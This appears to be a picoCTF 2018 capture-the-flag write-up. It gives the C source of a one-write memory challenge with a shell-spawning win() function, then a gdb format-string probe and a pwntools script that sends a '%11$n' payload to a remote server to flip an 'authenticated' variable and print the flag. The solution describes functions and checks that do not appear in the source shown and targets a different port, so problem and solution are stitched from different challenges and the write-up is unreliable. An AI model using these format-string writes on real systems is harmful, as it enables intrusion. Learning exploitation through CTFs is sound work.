 # Problem
Can you authenticate to this [service](https://2018shell1.picoctf.com/static/c65c74a0f13131ba9f0b9497152aedd4/auth) and get the flag? Connect to it with ```nc 2018shell1.picoctf.com 23731```. [Source](https://2018shell1.picoctf.com/static/c65c74a0f13131ba9f0b9497152aedd4/auth.c)

## Hints:
Ever heard of the Global Offset Table?

## Solution:
First we download the files:
```bash
wget https://2018shell1.picoctf.com/static/c65c74a0f13131ba9f0b9497152aedd4/auth
wget https://2018shell1.picoctf.com/static/c65c74a0f13131ba9f0b9497152aedd4/auth.c
chmod +x ./auth
```

Now, we investigate the source:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

void win() {
  system("/bin/sh");
}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[256];
  
  unsigned int address;
  unsigned int value;

  puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");

  scanf("%x", &address);

  sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
  puts(buf);
  
  scanf("%x", &value);

  sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
  puts(buf);

  *(unsigned int *)address = value;

  puts("Okay, exiting now...\n");
  exit(1);
  
}
```

They let us change one word in memory as we wish.

Hint says to use the [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table).

If we override the address of ```puts@got()``` to ```win()```, we will have a shell.


```read_flag()``` will print the flag if ```authenticated``` is not false, the problem is that ```authenticated``` is initialized to ```0``` and never changes (rly?)

We can see that if the input (```buf```) does not contain the substring "yes", it is being printed as a format string. We can use it to override authenticated.

Lets investigate, using this gdbinit file:
```bash
break *0x080487f9
run < <(echo "AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x")
x/12wx $esp
x &authenticated

Breakpoint 1, 0x080487f9 in main ()
0xffffce40: 0xffffce6c  0x080489a6  0xf7f965c0  0x0804875a
0xffffce50: 0x00000000  0x00c30000  0x00000000  0xffffcf64
0xffffce60: 0x00000000  0x00000000  0x000003e8  0x41414141
$1 = (int *) 0x804a04c <authenticated>
```

We can see that the string "AAAA" (from our input) is being referenced at the eleventh stack element. We can implement arbitrary memory write now.
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'roeesefi'
pw = '123123'

if debug:
  p = process('./vuln')
else:
  p = remote('2018shell1.picoctf.com', 52918)

print p.recvuntil('Would you like to read the flag? (yes/no)')

payload = p32(0x804a04c) + '.%11$n'

p.sendline(payload)

print p.recvall()
```

Access Granted.

Flag: picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}